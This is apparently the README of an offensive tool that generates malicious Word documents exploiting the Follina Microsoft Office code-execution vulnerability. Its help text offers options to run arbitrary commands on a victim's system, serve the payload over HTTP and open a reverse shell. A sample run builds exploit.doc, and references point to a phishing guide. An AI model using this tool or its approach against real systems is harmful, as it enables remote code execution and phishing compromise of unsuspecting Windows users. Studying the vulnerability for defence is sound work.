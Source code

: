 # Follina Exploit

Convert a Microsoft Windows Doc into a One-Click Payload

## Usage
```bash
$ ./follina_exploit.py --help
usage: follina_exploit.py [-h] [-f FILE] [-c COMMAND] [-o OUTPUT] [-i IP] [-p PORT] [-r LHOST:LPORT]

[+] Exploit Generator for Follina

options:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  Input Microsoft Word File
  -c COMMAND, --command COMMAND
                        Command to execute on the remote system [Default: Calc]
  -o OUTPUT, --output OUTPUT
                        Name of output malicious Doc [Default: exploit.doc]
  -i IP, --ip IP        Interface to bind http server to [Default: 127.0.0.1]
  -p PORT, --port PORT  Port to start http server on [Default: 6969]
  -r LHOST:LPORT, --reverse LHOST:LPORT
                        IP and Port for reverse shell
```

```bash
$ ./follina_exploit.py
⚙ Input File: whokilleddb.docx
⚙ Output File: exploit.doc
⚙ Starting HTTP Server over: 127.0.0.1:6969
⚙ Command: calc.exe
📁 Staging Folder: /tmp/follina_fu9t5t6p
🐞 Wrote payload to /tmp/follina_fu9t5t6p/www/index.html
🔥 Preparing Malicious doc
🌐 Serving /tmp/follina_fu9t5t6p/www over http://127.0.0.1:6969
✔ Created Malicios Doc: /home/whokilleddb/Code/Follina/exploit.doc
```

## To-Do

- Change the document to RTF form

## References

- https://doublepulsar.com/follina-a-microsoft-office-code-execution-vulnerability-1a47fce5629e
- https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/inject-macros-from-a-remote-dotm-template-docx-with-macros
